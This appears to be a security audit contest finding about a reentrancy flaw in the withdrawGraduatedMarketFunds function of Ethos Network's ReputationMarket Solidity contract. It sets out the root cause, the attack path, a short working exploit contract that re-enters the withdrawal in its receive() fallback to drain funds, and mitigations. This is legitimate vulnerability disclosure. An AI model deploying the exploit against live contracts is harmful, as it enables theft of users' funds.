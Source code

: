 Clever Hazelnut Frog

Medium

# Reentrancy in withdrawGraduatedMarketFunds - authorizedAddress/ADMIN only

### Summary

In `withdrawGraduatedMarketFunds` it's possible to trigger reentrancy at [`_sendEth`](https://github.com/sherlock-audit/2024-11-ethos-network-ii/blob/57c02df7c56f0b18c681a89ebccc28c86c72d8d8/ethos/packages/contracts/contracts/ReputationMarket.sol#L675), if the ADMIN keys are stolen it could drain the contract

### Root Cause

In [`withdrawGraduatedMarketFunds`](https://github.com/sherlock-audit/2024-11-ethos-network-ii/blob/57c02df7c56f0b18c681a89ebccc28c86c72d8d8/ethos/packages/contracts/contracts/ReputationMarket.sol#L660) it's possible to trigger reentrancy at [`_sendEth`](https://github.com/sherlock-audit/2024-11-ethos-network-ii/blob/57c02df7c56f0b18c681a89ebccc28c86c72d8d8/ethos/packages/contracts/contracts/ReputationMarket.sol#L675), as there is no `ReentrancyGuard` in either the `withdrawGraduatedMarketFunds` or `_sendEth`, the `call` in [`_sendEth`](https://github.com/sherlock-audit/2024-11-ethos-network-ii/blob/57c02df7c56f0b18c681a89ebccc28c86c72d8d8/ethos/packages/contracts/contracts/ReputationMarket.sol#L892) will lead to a reentrancy and since the [`marketFunds`](https://github.com/sherlock-audit/2024-11-ethos-network-ii/blob/57c02df7c56f0b18c681a89ebccc28c86c72d8d8/ethos/packages/contracts/contracts/ReputationMarket.sol#L677) get set to 0 only after the `_sendEth` call, this allows the attacker with ADMIN keys to drain the entire contract

### Internal pre-conditions

1. Access to ADMIN keys

### External pre-conditions

_No response_

### Attack Path

1. Steal ADMIN keys 
2. graduateMarket
3. withdrawGraduatedMarketFunds
4. reentrancy loop in `_sendEth` to drain contract

### Impact

If the ADMIN keys are ever stolen it could drain the entire contract

### PoC

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.26;

import { ReputationMarket as Target } from "./ReputationMarket.sol";

contract Exploit {
    Target public target;
    uint256 profileId;

    constructor(address targetAddress, uint256 pId) {
        target = Target(targetAddress);
        profileId = pId;
    }

    function exploit() public {
        target.graduateMarket(profileId);
        target.withdrawGraduatedMarketFunds(profileId);
    }

    receive() external payable {
        if (address(target).balance > 0) {
            target.withdrawGraduatedMarketFunds(profileId);
        }
    }
}
```

### Mitigation

Option 1: Add `ReeantrancyGuard` to `withdrawGraduatedMarketFunds`
Option 2: Set [`marketFunds`](https://github.com/sherlock-audit/2024-11-ethos-network-ii/blob/57c02df7c56f0b18c681a89ebccc28c86c72d8d8/ethos/packages/contracts/contracts/ReputationMarket.sol#L677) to 0 before calling [`_sendETH` ](https://github.com/sherlock-audit/2024-11-ethos-network-ii/blob/57c02df7c56f0b18c681a89ebccc28c86c72d8d8/ethos/packages/contracts/contracts/ReputationMarket.sol#L675)